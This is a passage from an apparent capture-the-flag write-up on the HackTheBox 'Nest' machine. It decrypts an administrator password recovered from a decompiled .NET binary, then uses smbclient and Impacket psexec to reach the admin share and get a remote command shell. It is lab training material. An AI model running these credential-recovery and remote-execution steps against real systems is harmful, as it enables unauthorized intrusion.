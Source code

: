 ## "Reversing" HqkLdap.exe

We download the latest release of [dnSpy](https://github.com/0xd4d/dnSpy) and
load the binary. We quickly find some encryption and decryption functions. They
are similar to the ones in the Utils.vb but use different parameters
(passphrase, salt, number of password iteration, initialisation vector and key
size).

[dnSpy](/media/2020.06/nest_01.png)

We change the values in our previous module in MS Visual Basic 2010 Express and
rerun the code. The only changed line is the following:

`Console.WriteLine(Decrypt("yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=", "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256))`

This give us the administrator password: XtH4nkS4Pl4y1nGX.

We connect to the "C$" share as administrator and are able to get the root flag.

    :::text
    # smbclient //10.10.10.178/C$ -U "Administrator"%"XtH4nkS4Pl4y1nGX"
    Try "help" to get a list of possible commads.
    smb: \> cd Users\Administrator\
    smb: \Users\Administrator\> cd Desktop\
    smb: \Users\Administrator\Desktop\> ls
      .                                  DR        0  Sun Jan 26 02:20:50 2020
      ..                                 DR        0  Sun Jan 26 02:20:50 2020
      desktop.ini                       AHS      282  Sat Jan 25 17:02:44 2020
      root.txt                            A       32  Mon Aug  5 18:27:26 2019

                    10485247 blocks of size 4096. 6449582 blocks available
    smb: \Users\Administrator\Desktop\> mget root.txt
    Get file root.txt? y
    getting file \Users\Administrator\Desktop\root.txt of size 32 as root.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)n

We can also use psexec to directly execute commands on the system as
administrator.

    :::text
    python psexec.py administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.178.....
    [*] Found writable share ADMIN$
    [*] Uploading file xHADOhNA.exe
    [*] Opening SVCManager on 10.10.10.178.....
    [*] Creating service OtZQ on 10.10.10.178.....
    [*] Starting service OtZQ.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
